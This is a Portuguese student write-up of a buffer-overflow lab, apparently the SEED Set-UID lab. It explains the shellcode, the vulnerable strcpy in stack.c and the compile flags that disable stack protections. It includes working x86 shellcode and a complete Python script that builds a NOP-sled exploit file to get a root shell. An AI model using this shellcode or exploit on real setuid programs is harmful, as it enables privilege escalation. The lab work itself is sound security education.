 ## TAREFA 1
O principal objetivo de um ataque de buffer-overflow é injetar código malicioso no programa atacado, de forma a fazer uso dos privilégios deste para o executar. Uma vez que Shellcode é usado na maioria de ataques de injeção de código, esta primeira tarefa tem como objetivo uma familiarização inicial a como este funciona.

Shellcode, é basicamente um pedaço de código que executa uma shell, o que observamos no código c partilhado no guião:

```c
#include <stdio.h>
int main() {
	char *name[2];
	name[0] = "/bin/sh";
	name[1] = NULL;
	execve(name[0], name, NULL);
}
```

Este simples código, usa o comando "/bin/sh", e os argumentos guardados em "name", na chamada ao comando execve(), para executar uma shell. No entanto, não é possível compilar este código e usar o binário gerado como o nosso shellcode. O Lab apresenta, portanto, o código binário gerado apartir de código assembly, o qual é brevemente explicado no guião, para uma arquitetura de 32 e de 64 bits. Este código encontra-se no ficheiro "call_shellcode.c":

```c
const char shellcode[] =
#if __x86_64__
    "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
    "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
    "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;
```

Quando o ficheiro é compilado com a flag -m32, o código binário de 32 bits (bloco else), é guardado em "shellcode", caso contrário, é guardado o de 64 bits (primeiro bloco).

Todas as instruções de compilação já estão especificadas no Makefile providenciado. Compilamos o código com o comando "make", que gerou 2 ficheiros de output (um com o código de 64 bits e outro com o de 32) e, executando ambos, verificamos que  é aberta uma shell (neste caso zsh, por causa das proteções) no terminal, no mesmo diretório onde é executado o programa.



## TAREFA 2
A segunda tarefa consistia em perceber como funciona o programa vulnerável deste lab, que se encontra no ficheiro "stack.c". Para isso começamos por analisar o ficheiro.

A vulnerabilidade está no facto da função "strcpy()", não verificar os limites do buffer para o qual estamos a tentar copiar. O programa lê para um array de caracteres "str", com um tamanho máximo de 517 bytes, o conteúdo (também 517 bytes, se tudo correr bem) de um ficheiro "badfile".

```c
char str[517];
FILE *badfile;
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
```

De seguida é chamada a função "bof()", com o array "str" como argumento.

```c
bof(str);
```

Nesta função, "strcpy()" irá copiar os 517 bytes do array "str" para um buffer de tamanho "BUF_SIZE", definido como apenas 100 bytes, e por isso um buffer-overflow irá ocorrer.

```c
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif
//...
char buffer[BUF_SIZE];

strcpy(buffer, str);	
```

Uma vez que o programa é "SET-UID root-owned", explorando esta vulnerabilidade existe a possibilidade do utilizador conseguir acesso a uma root shell (se o conteúdo do ficheiro "badfile" visar a isso, é claro).

Em termos de compilação é de destacar alguns aspetos:
 - As opcões "-fno-stack-protector" e "-z execstack" devem ser usadas de forma a desativar a "StackGuard" e as proteções não executáveis da stack.
 
 - De forma a tornar o programa em um programa "Set-UID root-owned", primeiramente mudamos a ownership do programa para root, usando o comando "sudo chown root stack", e depois mudamos a permissão para 4755, deforma a habilitar o bit de "Set-UID". Esta deve ser a ordem utilizada, uma vez que alterar a ownership para root, desativaria o bit de "Set-UID".
Todos estes comandos já vêm incluídos no Makefile providenciado, pelo que estamos prontos a continuar com as restantes tarefas, e podemos compilar o código com "make", no momento apropriado.



## TAREFA 3

Nesta tarefa, o objetivo é explorar uma vulnerabilidade de buffer overflow em um programa de 32 bits chamado "stack-L1-dbg".

Primeiramente, tivemos que utilizar um debbuger(GDB), para analisar o programa alvo e descobrir a distância entre o início do buffer e o local onde o endereço de retorno é armazenado.

Terminal 1 | Terminal 2
:---------:|:---------:
![Terminal print of lab task1]() | ![Terminal print of lab task1](file:///C:/Users/cmpos/OneDrive/Imagens/Capturas%20de%20tela/2%20task5.png)

De seguida, tivemos de alterar as variaveis no script python.
    - Alteramos a variavel **offset** para 112, pois essa é a distância entre o inicio do buffer e o endereço de retorno.
    - Alteramos tambem o valor **ret** para o programa saltar para o endereço que queremos.
    - Alteramos o valor **start** para coincidir com o inicio do shellcode no buffer com a posição do ret.
    


**Python Script**

``` python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 256               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0xffffcbfc     # Change this number
offset = 112           # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

Para finalizar corremos o script python e depois corremos o programa.Com isto conseguimos executar o buffer overflow e executar o shellcode.
![](url)








## TAREFA 4
